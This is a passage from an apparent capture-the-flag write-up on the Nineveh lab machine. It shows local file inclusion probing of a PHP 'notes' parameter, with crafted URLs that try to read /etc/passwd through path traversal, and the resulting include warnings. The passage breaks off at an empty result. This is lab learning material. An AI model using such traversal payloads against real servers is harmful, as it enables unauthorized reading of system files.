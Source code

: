 >   ![alternative_department_login](alternative_department_login.png)

Notice that the URL is `http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`. The URL is using some file path as an argument, we could test for any LFI vulnerability.

```bash
URL: http://10.10.10.43/department/manage.php?notes=files/
Returned: No Note is selected.

URL: http://10.10.10.43/department/manage.php?notes=/etc/passwd
Returned: No Note is selected.

URL: http://10.10.10.43/department/manage.php?notes=files/ninevehNotes
Returned: Warning:  include(files/ninevehNotes): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31

URL: http://10.10.10.43/department/manage.php?notes=/ninevehNotes/
Returned: Warning:  include(/ninevehNotes/): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31

URL: http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../etc/passwd
Returned:
```